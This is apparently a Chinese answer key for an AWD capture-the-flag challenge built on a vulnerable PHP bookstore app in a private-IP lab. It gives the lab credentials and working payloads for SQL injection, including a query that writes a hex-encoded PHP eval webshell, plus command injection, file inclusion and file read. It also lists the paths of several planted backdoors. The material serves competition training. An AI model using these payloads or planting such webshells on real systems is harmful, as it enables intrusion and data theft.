 # 2023年12月24日 awd考核题目

交流联系sillybbb666@gmail.com

awd平台使用github开源平台mo-xiaoxi/AWD_CTF_Platform，代码自行修改启动题目

本题目基于2023年国赛西南赛区半决赛book改编

wp：

后台密码：mama123  30e32fcd467fcb2e9910636b99b49a4d171be7f3

数据库密码：root

注意sql注入可直接利用sqlmap --os-shell，导出文件权限默认开启，数据库端口默认开启

sql注入1：http://192.168.153.128:8801/book.php?bookisbn=1

sql注入2：http://192.168.153.128:8801/admin_edit.php?bookisbn=1

```
http://192.168.153.128:8802/book.php?bookisbn=1' union select 1,2,3,4,load_file("/flag"),6,7,8%23
```

```
http://192.168.153.128:8802/book.php?bookisbn=1' 'union select 1,0x3c3f70687020406576616c28245f504f53545b627468636c735d293b3f3e,3,4,5,6,7,8 into outfile '/tmp/sql.php'%23
```

命令执行：http://192.168.153.128:8801/functions/database_functions.php?target=127.0.0.1|cat /flag

任意文件上传：http://192.168.153.128:8801/admin_add.php

任意文件包含：http://192.168.153.128:8801/index.php?file=

任意文件读取：http://192.168.153.128:8801/?file=php://filter/read=convert.base64-encode/resource=/flag

默认后门：http://192.168.153.128:8801/bootstrap/test/bypass_disablefunc.php?cmd=cat%20/flag&outpath=/tmp/xx&sopath=/var/www/html/bootstrap/test/bypass_disablefunc_x64.so

图片马后门：http://192.168.153.128:8801/bootstrap/img/2.jpg

加密后门D盾有时查不出来，需自行排查

加密后门：http://192.168.153.128:8801/obs.php

隐藏后门：http://192.168.153.128:8801/.a.php
